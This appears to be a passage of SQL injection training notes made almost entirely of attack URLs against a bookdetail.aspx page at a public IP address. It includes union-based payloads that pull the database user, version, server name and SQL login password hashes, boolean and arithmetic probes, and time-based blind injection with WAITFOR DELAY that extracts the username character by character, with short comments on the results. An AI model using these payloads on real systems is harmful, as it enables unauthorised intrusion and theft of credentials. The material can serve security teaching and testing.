 http://54.213.100.93/bookdetail.aspx?id=-2 union all select 1,user,@@version,4,5,6,7,8,9--
http://54.213.100.93/bookdetail.aspx?id=-2 union all select 1,user,@@version,@@servername,5,6,7,8,9--
http://54.213.100.93/bookdetail.aspx?id=-2 union all select 1,user,@@version,@@servername,5,6,db_name(0),8,9--
http://54.213.100.93/bookdetail.aspx?id=-2 union all select 1,user,@@version,@@servername,5,6,master.sys.fn_varbintohexstr(password_hash),8,9 from master.sys.sql_logins--





- Another way is to see if you can get the backend to perform an arithmetic function
http://54.213.100.93/bookdetail.aspx?id=(2)	
http://54.213.100.93/bookdetail.aspx?id=(4-2)	
http://54.213.100.93/bookdetail.aspx?id=(4-1)



http://54.213.100.93/bookdetail.aspx?id=2 or 1=1-- 
http://54.213.100.93/bookdetail.aspx?id=2 or 1=2-- 
http://54.213.100.93/bookdetail.aspx?id=1*1 
http://54.213.100.93/bookdetail.aspx?id=2 or 1 >-1# 
http://54.213.100.93/bookdetail.aspx?id=2 or 1<99# 
http://54.213.100.93/bookdetail.aspx?id=2 or 1<>1# 
http://54.213.100.93/bookdetail.aspx?id=2 or 2 != 3-- 
http://54.213.100.93/bookdetail.aspx?id=2 &0#





###############################
# Blind SQL Injection Testing #
###############################
Time-Based BLIND SQL INJECTION - EXTRACT DATABASE USER
  	 
3 - Total Characters
http://54.213.100.93/bookdetail.aspx?id=2; IF (LEN(USER)=1) WAITFOR DELAY '00:00:10'--
http://54.213.100.93/bookdetail.aspx?id=2; IF (LEN(USER)=2) WAITFOR DELAY '00:00:10'--
http://54.213.100.93/bookdetail.aspx?id=2; IF (LEN(USER)=3) WAITFOR DELAY '00:00:10'-- 		(Ok, the username is 3 chars long - it waited 10 seconds)

Let's go for a quick check to see if it's DBO
http://54.213.100.93/bookdetail.aspx?id=2; IF ((USER)='dbo') WAITFOR DELAY '00:00:10'--

Yup, it waited 10 seconds so we know the username is 'dbo' - let's give you the syntax to verify it just for fun.

D  - 1st Character
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),1,1)))=97) WAITFOR DELAY '00:00:10'-- 	
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),1,1)))=98) WAITFOR DELAY '00:00:10'--
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),1,1)))=99) WAITFOR DELAY '00:00:10'--
http://54.213.100.93/bookdetail.aspx?id=2; IF (ASCII(lower(substring((USER),1,1)))=100) WAITFOR DELAY '00:00:10'-- 	(Ok, first letter is a 100 which is the letter 'd' - it waited 10 seconds)
 